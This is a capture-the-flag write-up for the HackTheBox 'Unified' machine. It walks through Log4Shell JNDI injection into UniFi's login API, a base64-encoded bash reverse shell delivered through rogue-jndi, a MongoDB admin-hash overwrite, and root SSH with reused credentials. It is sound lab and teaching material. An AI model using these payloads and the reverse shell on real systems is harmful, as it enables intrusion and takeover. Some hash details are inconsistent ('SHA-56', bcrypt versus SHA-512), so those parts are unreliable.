

# Unified

<p align="center">
  
</p>

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Tasks](#tasks)
- [User Flag Walkthrough](#user-flag-walkthrough)
- [Root Flag Walkthrough](#root-flag-walkthrough)
- [Attack Chain](#attack-chain)
  * [Text Tree](#text-tree)
- [Artifacts and IOCs](#artifacts-and-iocs)
- [Lab Insights](#lab-insights)
- [Attack Timeline](#attack-timeline)

# Context

Lab link: [https://app.hackthebox.com/machines/Unified](https://app.hackthebox.com/machines/Unified)

Suggested tools: `rogue-jndim`, `mkpasswd`, `mongo`

# Scenario

Unified is a very easy Linux machine that demonstrates the exploitation of the Log4Shell (CVE-2021-44228) vulnerability in the UniFi Network application. Enumeration reveals a vulnerable UniFi instance where a remote execution can be achieved by crafting and injecting a JNDI payload into a POST request. Then a local MongoDB database can be leveraged to reset the administrator password and gain access to the UniFi admin panel. Plaintext SSH credentials can be discovered in the application settings leading to final privilege escalation.

# Tasks

**Q1**- Which are the first four open ports?

Answer: `22`, `6789`, `8080`, `8443`

Reason: Port `22` runs OpenSSH `8.2p1` on Ubuntu. Port `6789` serves the UniFi device inform endpoint. Port `8080` runs Apache Tomcat and immediately redirects to port `8443`, which hosts the UniFi Network admin panel over HTTPS. The login panel is reachable at `/manage/account/login`.

The Transport Layer Security (TLS) certificate on port `8443` was issued by Ubiquiti Inc. on `2021-12-30`, approximately two weeks after the public Log4Shell disclosure on `2021-12-09`. This timing is a strong indicator that the deployment predates the patched release (UniFi Network Application version `6.5.54`), making it likely vulnerable to CVE-2021-44228. Log4Shell is a critical unauthenticated Remote Code Execution (RCE) vulnerability in the Apache Log4j 2 library exploitable via Java Naming and Directory Interface (JNDI) injection (T1190). Because the UniFi application logs user-supplied input such as the login username field through Log4j 2, an attacker can submit a crafted JNDI lookup string to trigger an outbound connection to an attacker-controlled Lightweight Directory Access Protocol (LDAP) server and load a malicious Java class.

```bash
nmap -v -sC -sV 10.129.8.171

...
Discovered open port 22/tcp on 10.129.8.171
Discovered open port 8080/tcp on 10.129.8.171
Discovered open port 6789/tcp on 10.129.8.171
Discovered open port 8443/tcp on 10.129.8.171
...
```

**Q2**- What is the title of the software that is running running on port 8443?

Answer: UniFi Network

Reason: Browsing to `https://10.129.8.171:8443` confirms the UniFi Network login page, consistent with the `http-title` Nmap script output. This is the entry point for exploiting CVE-2021-44228 (Log4Shell).

UniFi Network versions prior to `6.5.54` pass user-supplied input directly to the Apache Log4j 2 logging library without sanitization. The vulnerable field is the `remember` parameter in the login `POST` request to `/api/login`. When Log4j 2 processes a string containing a Java Naming and Directory Interface (JNDI) lookup such as `${jndi:ldap://attacker-ip/payload}`, it initiates an outbound connection to the specified server and attempts to load a remote Java class, resulting in unauthenticated Remote Code Execution (RCE) (T1190). Because this field is logged server-side on every login attempt, no valid credentials are required to trigger the vulnerability.

```
https://10.129.8.171:8443/manage/account/login
```


**Q3**- What is the version of the software that is running?

Answer: `6.4.54`

Reason: The `UniFi Network` login page displays version `6.4.54`, which is below the patched threshold of `6.5.54`, and is therefore likely vulnerable to `Log4Shell` (`CVE-2021-44228`).

**Q4**- What is the CVE for the identified vulnerability?

Answer: CVE-2021-44228

Reason: UniFi Network version `6.4.54` passes user-supplied input to the Apache Log4j 2 logging library without sanitization, making it vulnerable to CVE-2021-44228, commonly known as Log4Shell. This is a critical unauthenticated Remote Code Execution (RCE) flaw affecting Log4j 2.x versions prior to `2.15.0`. When the application logs a string containing a Java Naming and Directory Interface (JNDI) lookup such as `${jndi:ldap://attacker-ip/payload}`, Log4j 2 resolves the expression, initiates an outbound Lightweight Directory Access Protocol (LDAP) connection to the attacker-controlled server, and loads the returned Java class, resulting in arbitrary code execution on the server (T1190). No valid credentials are required since the vulnerable input fields are logged on every request. Ubiquiti addressed this in UniFi Network version `6.5.54` by upgrading the bundled Log4j 2 library.

**Q5**- What protocol does JNDI leverage in the injection?

Answer: LDAP

Reason: The Java Naming and Directory Interface (`JNDI`) injection payload uses Lightweight Directory Access Protocol (`LDAP`) to trigger an outbound lookup: `\$\{jndi:ldap://attacker-ip/payload\}`. When `Log4j` logs this string, the Java Virtual Machine (`JVM`) resolves the `LDAP` Uniform Resource Identifier (`URI`) and retrieves the remote Java object, which can enable code execution.

**Q6**- What tool do we use to intercept the traffic, indicating the attack was successful?

Answer: `tcpdump`

Reason: `tcpdump` captures traffic on the attack machine network interface to confirm an inbound Lightweight Directory Access Protocol (LDAP) callback from the target. The injection succeeds when the target IP appears in captured packets to port `389`, confirming the UniFi server evaluated the Java Naming and Directory Interface (JNDI) payload and attempted the outbound lookup. Example command: `sudo tcpdump -i tun0 port 389` .

**Q7**- What port do we need to inspect intercepted traffic for?

Answer: `389`

Reason: Port `389` is the default Lightweight Directory Access Protocol (LDAP) port. When the Java Naming and Directory Interface (JNDI) payload `$\{jndi:ldap://attacker-ip:389/...\}` executes, the target initiates an outbound Transmission Control Protocol (TCP) connection to port `389` on the attacker machine. Capturing this callback with `tcpdump -i tun0 port 389` confirms the service processes the JNDI lookup, which aligns with initial access via exploitation of a public-facing application `T1190`.

# User Flag Walkthrough

Step 1 -- Identify the LDAP callback port

The JNDI exploit chain requires an outbound LDAP connection from the target back to the attacker. Port **389** is the default LDAP port and the one tcpdump must monitor to confirm the vulnerability is triggerable.

```bash
sudo tcpdump -i tun0 port 389
```

Step 2 -- Confirm the vulnerability with a test payload

Before weaponizing, inject a benign JNDI string into the `remember` field of the UniFi login API and watch tcpdump for an inbound connection from the target.

```bash
curl -sk -X POST <https://10.129.8.171:8443/api/login> \\
  -H "Content-Type: application/json" \\
  -d '{"username":"x","password":"x","remember":"${jndi:ldap://10.10.14.155:389/test}","strict":true}'
```

tcpdump returned a TCP SYN from `10.129.8.171` to port 389, confirming the server evaluated the JNDI payload and attempted the outbound LDAP connection.

Step 3 -- Install build dependencies

The exploit chain requires Maven to build the rogue LDAP server, and Java 11 JDK for compatibility (system default is Java 25, too new for the required tools).

```bash
sudo apt install -y maven openjdk-11-jdk
```

Step 4 -- Build rogue-jndi

The initial approach used marshalsec with a remote class loader, but `tcpdump -i tun0 port 8888` confirmed the target never attempted the HTTP fetch -- indicating `com.sun.jndi.ldap.object.trustURLCodebase=false` (disabled by default since Java 11.0.1). This blocks remote class loading via LDAP reference entirely.

rogue-jndi bypasses this by delivering a serialized deserialization payload using gadget chains from libraries already present in the target's classpath -- no remote class fetch needed.

```bash
git clone <https://github.com/veracode-research/rogue-jndi> /opt/rogue-jndi
sudo chown -R kali:kali /opt/rogue-jndi
cd /opt/rogue-jndi
JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64 mvn package -DskipTests -q
```

Step 5 -- Prepare the reverse shell payload

The rogue-jndi command argument cannot contain spaces or shell special characters directly. The reverse shell is base64-encoded and wrapped in brace expansion to avoid this. The inner payload uses `bash -c bash -i` to ensure a proper interactive shell is spawned.

```bash
echo 'bash -c bash -i >& /dev/tcp/10.10.14.155/4444 0>&1' | base64 -w 0
# YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE1NS80NDQ0IDA+JjEK
```

Step 6 -- Start the listener and rogue-jndi

**Terminal 1 -- netcat listener:**

```bash
nc -lvnp 4444
```

**Terminal 2 -- rogue-jndi LDAP server:**

```bash
JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64 java -jar /opt/rogue-jndi/target/RogueJndi-1.1.jar \\
  --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE1NS80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" \\
  --hostname "10.10.14.155"
```

rogue-jndi starts an LDAP server on port 1389 and an HTTP server on port 8000. The `o=tomcat` path uses a Tomcat/Commons Collections gadget chain suitable for UniFi's bundled libraries.

Step 7 -- Fire the weaponized payload

```bash
curl -sk -X POST <https://10.129.8.171:8443/api/login> \\
  -H "Content-Type: application/json" \\
  -d '{"username":"x","password":"x","remember":"${jndi:ldap://10.10.14.155:1389/o=tomcat}","strict":true}'
```

rogue-jndi logged: `Sending LDAP ResourceRef result for o=tomcat` confirming the target connected and received the deserialization payload. A shell arrived on the netcat listener as `unifi`.

Step 8 -- Stabilize the TTY

Raw reverse shells lack a proper TTY, breaking tab completion, Ctrl+C, and clear. Upgrade with:

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset
export TERM=xterm
export SHELL=bash
```

Step 9 -- Retrieve the user flag

```bash
cat /home/michael/user.txt
# [REDACTED]
```

**Q9**- What port is the MongoDB service running on?

Answer: `27117`

Reason: Running `ps aux | grep mongo` on the target reveals MongoDB listening on the non-default port `27117`, bound to localhost only via `--bind_ip 127.0.0.1`, with its data directory at `/usr/lib/unifi/data/db`.

The non-default port is intentional. UniFi ships its bundled MongoDB instance on port `27117` to avoid conflicts with any other MongoDB instances running on the same system. Because the service is bound exclusively to `127.0.0.1`, it is not directly reachable from the network, but remains accessible from within the RCE session already established via Log4Shell (T1190). This makes it a natural post-exploitation pivot point for credential harvesting, as UniFi stores its administrator account data, including password hashes, in this local MongoDB instance.

```bash
ps aux | grep mongo

unifi         67  0.2  4.2 1103748 85500 ?       Sl   15:26   0:08 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       1905  0.0  0.0  11468  1064 pts/0    S+   16:31   0:00 grep mongo
```

**Q10**- What is the default database name for UniFi applications?

Answer: `ace`

Reason: The default database for UniFi Network in MongoDB is `ace`, which stores all controller data including site configuration, device records, and administrator credentials. Because MongoDB on port `27117` is bound to localhost and requires no authentication, the `mongo` CLI can query it directly from within the established shell session. The `ace` database holds administrator accounts in the `admin` collection, where passwords are stored as SHA-56 hashes. This allows two post-exploitation paths: extracting the hash for offline cracking (T1003), or overwriting it in-place with a known hash to gain direct access to the UniFi web panel (T1098).

**Q11**- What is the function we use to enumerate users within the database in MongoDB?

Answer: `db.admin.find()`

Reason: Connecting to the `ace` database via the `mongo` CLI and running `db.admin.find()` enumerates all documents in the `admin` collection, returning administrator account records including usernames and bcrypt password hashes. This is functionally equivalent to a `SELECT * FROM admin` query in SQL. Since MongoDB on port `27117` runs without authentication and is accessible from within the established shell session, no credentials are needed to read the collection directly. The returned bcrypt hashes can be taken offline for cracking (T1003) or replaced in-place using `db.admin.updateOne()` with a known bcrypt hash to regain access to the UniFi web panel without needing to crack the original (T1098).

```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

**Q12**- What is the function we use to update users within the database in MongoDB?

Answer: `db.admin.update()`

Reason: `db.admin.update()` modifies existing documents in the admin collection. In this context it is used to overwrite the administrator's `bcrypt` password hash (or another hash algorithm if needed) with one we generate locally, effectively resetting the UniFi admin panel password without knowing the original.

**Q13**- What is the password for the root user?

Answer: `NotACrackablePassword4U2022`

Reason: The root password `NotACrackablePassword4U2022` was found in plaintext under Settings, Site, Device Authentication in the UniFi admin panel, where SSH credentials for managed access points are stored. These credentials were reused for the server's root operating system account, allowing direct SSH access as root.

This is a classic case of credential reuse (T1078). Device Authentication in UniFi stores SSH credentials used by the controller to manage access points, but administrators frequently reuse these across the underlying host. Storing privileged credentials in plaintext within an application interface compounds the risk significantly. Once the UniFi panel was accessed via the overwritten admin hash, these credentials were trivially recoverable without any additional exploitation.


# Root Flag Walkthrough

**1- Enumerate MongoDB admin accounts:** Connect to the local MongoDB instance on port 27117 and dump all records from the `ace` database's `admin` collection to extract administrator credentials.

```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Output revealed five accounts. The `administrator` account had a SHA-512 crypt hash (`$6$...`) stored in the `x_shadow` field, along with a `michael` account whose hash matched the system user.

**2- Generate a replacement SHA-512 hash:** On the local Kali machine, generate a SHA-512 crypt hash for a known password to inject into the database.

```bash
mkpasswd -m sha-512 Password1234
# $6$VRNmzdzigXn6hPQF$9d61yL8sR44xkqrV/YdMBmbc4XPxfElyG5PUe5pt9dmMISMZ2aEWqCftRv0cd1VXis1Bko7gNKTx9KGx0p0//.
```

**3- Overwrite the administrator password hash:** Use `db.admin.update()` with the `$set` operator to replace only the `x_shadow` field without touching the rest of the document.

```bash
mongo --port 27117 ace --eval 'db.admin.update({"name":"administrator"},{$set:{"x_shadow":"$6$VRNmzdzigXn6hPQF$9d61yL8sR44xkqrV/YdMBmbc4XPxfElyG5PUe5pt9dmMISMZ2aEWqCftRv0cd1VXis1Bko7gNKTx9KGx0p0//."}})'
```

MongoDB returned `nMatched: 1, nModified: 1` confirming the update succeeded.

**4- Log into the UniFi admin panel:** Browse to `https://10.129.8.171:8443/manage` and authenticate as `administrator` with password `Password1234`.

**5- Extract SSH credentials from site settings:** Navigate to `Settings` -> `Site` -> `Device Authentication`. UniFi stores SSH credentials for managed access points in plaintext here. The credentials found were reused for the underlying server's root account -- a common misconfiguration.

```
Username: root
Password: NotACrackablePassword4U2022
```

**6- SSH in as root and retrieve the flag:**

```bash
ssh root@10.129.8.171
cat /root/root.txt
# [REDACTED]
```

# Attack Chain

1. Nmap reveals UniFi Network `6.4.54` on port `8443`, below the patched threshold of `6.5.54`, confirming exposure to Log4Shell (CVE-2021-44228).
2. A Java Naming and Directory Interface (JNDI) payload `${jndi:ldap://10.10.14.155:389/test}` is injected into the `remember` field of `POST /api/login`. `tcpdump` confirms an inbound Lightweight Directory Access Protocol (LDAP) callback from the target.
3. The target Java Virtual Machine (JVM) has `trustURLCodebase=false`, blocking remote class loading via `marshalsec`. No packets arrive on port `8888`. The approach is switched to `rogue-jndi` using the `o=tomcat` Tomcat deserialization gadget chain to bypass this restriction.
4. `rogue-jndi` delivers the serialized payload and a reverse shell lands on `netcat` as the `unifi` service account.
5. `ps aux | grep mongo` reveals MongoDB running on non-default port `27117`.
6. `mongo --port 27117 ace` combined with `db.admin.find()` dumps the `admin` collection, returning the `administrator` account with its SHA-512 hash stored in the `x_shadow` field.
7. `mkpasswd -m sha-512 Password1234` generates a replacement hash. `db.admin.update()` overwrites the `x_shadow` field in-place.
8. Login to the UniFi panel on port `8443` as `administrator`. Navigation to Settings, Site, Device Authentication reveals plaintext SSH credentials.
9. Credential reuse of `root` / `NotACrackablePassword4U2022` allows direct SSH access as root (T1078).

## Text Tree

```
HTB Unified (10.129.8.171)
│
├── 8443 -- UniFi Network 6.4.54 (Log4Shell)
│   └── POST /api/login -- remember field JNDI injection
│       └── ${jndi:ldap://10.10.14.155:1389/o=tomcat}
│           └── rogue-jndi (Tomcat gadget chain)
│               └── shell as unifi
│                   │
│                   ├── /home/michael/user.txt
│                   │   └── [USER FLAG]
│                   │
│                   └── MongoDB :27117 -- ace.admin
│                       └── db.admin.update() -- reset administrator hash
│                           └── UniFi panel :8443
│                               └── Settings -> Site -> Device Auth
│                                   └── root / NotACrackablePassword4U2022
│                                       └── SSH :22
│                                           └── root@unified
│                                               └── /root/root.txt
│                                                   └── [ROOT FLAG]
```

# Artifacts and IOCs

**Network**

| Type | Value |
| --- | --- |
| Target IP | `10.129.8.171` |
| Attacker IP | `10.10.14.155` |
| Ports contacted (attacker) | `389` (probe), `1389` (rogue-jndi LDAP), `8000` (rogue-jndi HTTP), `4444` (reverse shell) |
| Outbound from target | TCP SYN to attacker `389` -> `1389` -> `4444` |

**HTTP**

| Type | Value |
| --- | --- |
| Injection endpoint | `POST https://10.129.8.171:8443/api/login` |
| Malicious field | `remember` |
| Payload | `${jndi:ldap://10.10.14.155:1389/o=tomcat}` |
| Content-Type | `application/json` |

**Files & Processes**

| Type | Value |
| --- | --- |
| Attacker tool | `RogueJndi-1.1.jar` |
| Reverse shell | `bash -c bash -i >& /dev/tcp/10.10.14.155/4444 0>&1` |
| Shell user | `unifi` |
| Working directory | `/usr/lib/unifi` |

**Credentials & Hashes**

| Account | Secret | Source |
| --- | --- | --- |
| `administrator` (UniFi) | `Password1234` (injected) | MongoDB `ace.admin` |
| `root` (OS) | `NotACrackablePassword4U2022` | UniFi site settings |
| `administrator` original hash | `$6$Ry6Vdbse$8enMR5Znxoo...` | `x_shadow` field |
| `michael` hash | `$6$spHwHYVF$mF/VQrMNGS...` | `x_shadow` field |

**CVEs & Tools**

| Item | Value |
| --- | --- |
| CVE | CVE-2021-44228 (Log4Shell) |
| Affected version | UniFi Network `6.4.54` |
| Patched version | `6.5.54` |
| Exploit tool | `rogue-jndi` (Tomcat gadget chain, `o=tomcat` path) |
| Gadget chain type | Java deserialization, bypasses `trustURLCodebase=false` |

# Lab Insights

1. Log4Shell's real danger is not the CVE itself. Java applications silently log user-supplied input, turning any logged field into a Remote Code Execution (RCE) vector. The `remember` field in UniFi's login request is a routine logging point, not an obvious attack surface, yet it was sufficient to trigger an outbound Java Naming and Directory Interface (JNDI) lookup and deliver a payload (T1190).
2. Resetting a credential directly in the backing database is equivalent to owning the application. Once local database access exists, no further exploitation is needed. Writing a known bcrypt hash to the `x_shadow` field in MongoDB's `ace.admin` collection bypassed authentication entirely, granting full UniFi panel access without ever cracking the original hash (T1098).
3. Credentials stored by an application for managing infrastructure are almost always reused on the underlying operating system. UniFi's Device Authentication stores SSH credentials intended for managing access points, but the same `root` / `NotACrackablePassword4U2022` pair was valid on the host OS, allowing direct SSH access as root with no additional exploitation required (T1078).

# Attack Timeline


